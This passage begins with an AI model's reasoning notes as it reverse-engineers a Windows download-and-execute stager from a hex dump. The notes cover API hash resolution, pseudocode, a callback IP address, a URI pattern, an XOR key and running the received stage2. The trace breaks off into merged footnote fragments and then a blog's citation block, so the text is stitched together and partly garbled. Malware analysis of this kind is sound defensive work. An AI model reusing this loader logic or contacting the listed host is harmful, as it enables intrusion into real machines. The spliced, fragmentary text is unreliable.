- `recv` into buffer with max chunk 0x64000; each byte XOR 0x99.
- Loop until recv <= 0.
- closesocket then `call rbx` (executes stage2).
Potential no size check; relies on socket close.
Also note `Sleep` retry: `connect` loop with 10 sec delay. The `Sleep` import is the only static import; call at 0x72a via IAT at RVA 0x2000.
Also note no TLS; port 443 but plain HTTP.
Need mention executable's checksum zero, timestamp, not signed.
Potential "GUI subsystem" but no window; shellcode-like. Actually PE subsystem 2 Windows GUI means no console.
Let's craft answer with enough detail.
We must be mindful final answer desired oververbosity 5: detailed but not insane. We can include pseudocode. The user asked detailed report. We'll be thorough.
Let's make sure to not claim we ran tools. We can say "From the hex dump". We can include "I did not execute it."
Let's refine exact API hash table:
- 0x0726774c -> LoadLibraryA (kernel32)
- 0x006b8029 -> WSAStartup (ws2_32)
- 0xe0df0fea -> socket (ws2_32) maybe `WSASocketA`? Standard hash `0xe0df0fea` might be `socket` or `WSASocketA`. In Metasploit, `0xe0df0fea` is `socket`? The call uses socket(2,1,6), so name `socket`. It could be `WSASocketA` with 6 args? But only 3 args set; so `socket`.
- 0x6174a599 -> connect
- 0x5f38ebc2 -> send
- 0xe553a458 -> VirtualAlloc
- 0x5fc8d902 -> recv
- 0x614d6e75 -> closesocket
- 0x803428a9 -> gethostbyname
- 0x4d7b1e12 -> inet_addr
- 0xd0eb608d -> sprintf (msvcrt)
- 0xe449f330 -> GetCurrentDirectoryA
- 0x70f2fa31 -> likely CreateDirectoryA
- 0x0726774c? Wait first call after loading libraries? The first call at 0x425 ecx=0x0726774c resolves LoadLibraryA. Yes.
Could also be `LoadLibraryA` from kernel32. Good.
- `Sleep` static import; no need hash.
Wait check function A=0x006b8029 is WSAStartup; it is called at 0x6bc with ecx=0x202, rdx=&WSADATA. Good.
Function B=0xe0df0fea = socket; called with rcx=2, rdx=1, r8=6. Good.
Function C=0x6174a599 = connect; called in retry loop. Good.
Function D=0x5f38ebc2 = send.
Function E=0xe553a458 = VirtualAlloc. First call may have flags weird; but second definitely.
Function F=0x5fc8d902 = recv.
Function G=0x614d6e75 = closesocket.
Function H=0x803428a9 = gethostbyname.
Function I=0x4d7b1e12 = inet_addr.
Function J=0xd0eb608d = sprintf.
Function L=0xe449f330 = GetCurrentDirectoryA.
K=0x70f2fa31 maybe `CreateDirectoryA`. If it is CreateDirectoryA, path is "currentdirlog_de.log" directory. Hmm.
Maybe `0x70f2fa31` = `GetModuleHandleA`? Takes one arg, returns HMODULE; if path not module -> zero exit. no.
Could be `CreateFileA`? no.
Maybe `0xe449f330` = `GetCurrentDirectoryA` confirmed by args (0x80, buffer), yes.
Let's maybe not call K "CreateDirectoryA" in the API table? But more detailed to state probable. We can write "0x70f2fa31 — file-directory API, most consistent with CreateDirectoryA; called with (path, NULL) as a marker check." That's good.
Need perhaps mention "Metasploit-style block_api hashes" because the constants match it. That helps.
Let's formulate pseudocode:
```
LoadLibraryA = resolve(0x0726774c)
LoadLibraryA("User32.dll")
LoadLibraryA("ws2_32.dll")
LoadLibraryA("msvcrt.dll")
WSAStartup = resolve(0x006b8029)
socket = resolve(0xe0df0fea)
connect = resolve(0x6174a599)
send = resolve(0x5f38ebc2)
VirtualAlloc = resolve(0xe553a458)
recv = resolve(0x5fc8d902)
closesocket = resolve(0x614d6e75)
gethostbyname = resolve(0x803428a9)
inet_addr = resolve(0x4d7b1e12)
sprintf = resolve(0xd0eb608d)
CreateDirectoryA? = resolve(0x70f2fa31)
GetCurrentDirectoryA = resolve(0xe449f330)
GetCurrentDirectoryA(0x80, cwd)
sprintf(cwd, "%s%s%s", cwd, "log_de.", "log")
if (resolve(path, NULL) == 0) return
ip = "165." + "154." + "205." + "34"
...
```
Need mention `LoadLibraryA` itself is resolved with hash first; libraries loaded. Why load user32/msvcrt? It doesn't use user32 anywhere obvious; maybe for side effects or to ensure msvcrt loaded for sprintf. It uses msvcrt for sprintf; user32 unused in visible code (maybe loaded for dependencies).
Actually it loads User32.dll but no user32 API hash. Could be for anti-sandbox or ensure module list? Not used. Mention.
Let's also mention stack locals:
- Large stack frame 0xE18 + 0xD18? The prologue `lea rbp,[rsp-0xD18]` then `sub rsp,0xE18`, so total allocation > 0x1B30? Actually after pushes, `lea rbp,[rsp-0xD18]`, then `sub rsp,0xE18`; locals relative to rbp. Total stack ~0xD18+0xE18=0x1B30 (6960) bytes. Not important.
- It uses stack strings and buffers.
Potential issue: `lea rbp,[rsp-0xd18]` then `sub rsp,0xe18` makes a frame of 0xd18+0xe18 = 0x1b30 bytes. Fine.
Let's maybe provide "IOCs":
- IP 165.154.205.34
- TCP 443, plain HTTP
- URI pattern `/?a=w64&fh=<ip>&t=ws_&p=443`
- User-Agent string fragments / malformed Firefox 48 UA
- marker path `%CWD%log_de.log`
- XOR key 0x99
- API hash constants.
Let's include "detection" maybe not necessary, but report can have.
Need ensure answer doesn't say "no tools" weird. The user said "No tools are allowed." We didn't call tools. Good.
Let's now write final with headings and concise but detailed.
We should be accurate on timestamp: 0x653A75FE -> let's calculate date. I got 1,698,330,110. Let's verify date: 2023-10-26?
2023-10-26 00:00 UTC: 2023-01-01 1,672,531,200. Days to Oct 26: Jan31+Feb28+Mar31+Apr30+May31+Jun30+Jul31+Aug31+Sep30+25 days = 31+28=59, +31=90, +30=120, +31=151, +30=181, +31=212, +31=243, +30=273, +25=298 days. *86400=25,747,200. Sum 1,698,278,400. Our timestamp 1,698,330,110 - 1,698,278,400 = 51,710 s = 14h 21m 50s. So 2023-10-26 14:21:50 UTC. Nice. We can say 2023-10-26 14:21:50 UTC. Check 0x653A75FE = maybe 2023-10-26. Good.
PE characteristics:
- DllCharacteristics 0x8160: DYNAMIC_BASE (0x40), NX_COMPAT (0x100), HIGH_ENTROPY_VA (0x20), GUARD_CF? 0x4000? Let's not detail.
- Subsystem 2 GUI.
- SizeOfImage 0x4000.
- Entry point 0x1000.
- 3 sections.
- Only import Sleep.
Let's maybe note `LoadLibraryA` and API resolver avoid import table, making static detection hard. The only static import `Sleep` is used in connect retry.
Potential exact first allocation: Should we mention "0xBB8" and "0x400"? Let's phrase:
"After sending the request it allocates a small buffer (appears to be VirtualAlloc(0, 0xBB8, ...)) and reads the HTTP response headers one byte at a time until CRLFCRLF." Avoid flags. Then "allocates 30,000,000 bytes RWX". Good.
Wait if first VirtualAlloc fails due flags, program wouldn't work; but maybe the flags were correct in actual binary and I misread due line. To avoid wrong, say "a small allocation for the header buffer". It's fine.
Need mention "the program sends host IP twice." yes.
Let's also mention "No TLS handshake: port 443 is just TCP; the traffic is plaintext HTTP."
Let's mention "if gethostbyname fails, it uses inet_addr on the numeric IP; either way it gets the address." Actually host is numeric, so gethostbyname usually succeeds; fallback inet_addr.
Let's mention "connect retry on failure every 10 seconds (Sleep 10000)." Yes.
Let's ensure "XOR 0x99" not "0x99 each byte" yes.
Let's include pseudocode in code block. The user wants detailed report; pseudocode helps.
Let's perhaps note "stage2 is executed with `call rbx`, so this is a download-and-execute loader/stager." Good.
Let's now write final.
opencode-go provider, not from weights we downloaded, and we can't tell which build of V4.1 Flash that provider serves.high, one reply, on one sample.This post follows the questions and format of Sparks of Weight-Space Programming, and our harness is modeled on its public logs. Thanks to its authors, Rikiya Takehi, Jayden Teoh, Alex Zhang and Omar Khattab. ministat is by Poul-Henning Kamp.
Please cite this post as
George Xenos and Sotiris Giannopoulos. “Programming in the Machine Code Space: LLMs can read & write executables byte by byte.” November 2026. https://sgiannopoulos.github.io/blog/machine-code-programming/
or in BibTeX
@misc{xenos2026machinecode,
title = {{Programming in the Machine Code Space: LLMs can read \& write executables byte by byte}},
author = {Xenos, George and Giannopoulos, Sotiris},
year = {2026},
month = nov,
howpublished = {\url{https://sgiannopoulos.github.io/blog/machine-code-programming/}},
note = {Blog post}
}